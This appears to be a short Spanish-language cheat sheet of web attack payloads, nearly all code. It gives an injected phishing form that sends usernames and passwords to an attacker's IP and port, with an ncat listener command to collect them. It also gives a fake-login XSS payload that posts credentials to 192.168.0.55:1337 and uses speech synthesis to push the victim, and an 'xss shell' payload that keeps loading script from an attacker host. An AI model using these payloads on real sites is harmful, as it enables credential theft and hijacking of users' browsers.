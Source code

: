  ```



```


### ----------------------------------

## HTML para simular un phishing y conseguir datos por ncat


### payload a inyectar:
```
<h3>Registrate</h3>
<form action=http://<Ip>:<Puerto>>Usuario:
<br><input type="username" name="username">
</br>Contraseña:<br><input type="password" name="password"></br>
<br><input type="submit" value="Entrar"></br>

```

### para escuchar:
`ncat -lnvp puerto`


## Fake login usando inyecciones xss, html y javascript

```
<script>alert(‘Favor de iniciar sesion para continuar’)</script>
<h3>Para continuar navegado, inicie sesion</h3>
<form action=http://192.168.0.55:1337>Username:<br>
<input type=”username” name=”username”></br>Password:<br>
<input type=”username” name=”password”></br><br>
<input type=”submit” value=”Login”></br>
<script type=”text/javascript”>function speak(c){var b=new SpeechSynthesisUtterance();var a=speechSynthesis.getVoices();b.voice=a[2];b.voiceURI=”native”;b.volume=1;b.rate=1;b.pitch=1;b.text=c;b.lang=”es-ES”;speechSynthesis.speak(b)}speak(“Favor de iniciar sesion para poder continuar navegando”);</script>

```




## xss shell

### payload a inyectar:
```
"><script>setInterval(function(){d=document;z=d.createElement("script");z.src="//IP:PORT";d.body.appendChild(z)},0)</script>
```
